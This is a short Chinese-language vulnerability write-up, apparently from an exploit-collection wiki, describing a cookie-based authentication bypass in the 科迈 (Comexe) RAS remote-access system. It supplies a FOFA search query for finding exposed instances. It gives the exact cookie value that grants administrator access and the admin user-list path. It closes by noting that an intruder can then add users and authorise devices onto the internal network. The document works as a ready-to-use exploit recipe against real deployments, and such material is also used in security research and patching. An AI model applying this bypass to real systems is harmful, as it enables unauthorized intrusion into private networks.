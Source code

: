 # 科迈 RAS系统 Cookie验证越权漏洞

## 漏洞描述

科迈 RAS系统 存在Cookie验证越权，当 RAS_Admin_UserInfo_UserName 设置为 admin 时可访问后台

## 漏洞影响

<a-checkbox checked>科迈 RAS系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="科迈-RAS系统"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313112037353.png)



添加Cookie

```plain
RAS_Admin_UserInfo_UserName=admin
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313112037181.png)



访问 `/Server/CmxUser.php?pgid=UserList`



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313112037479.png)



获取后可以添加用户，授权登陆设备直接接入内网
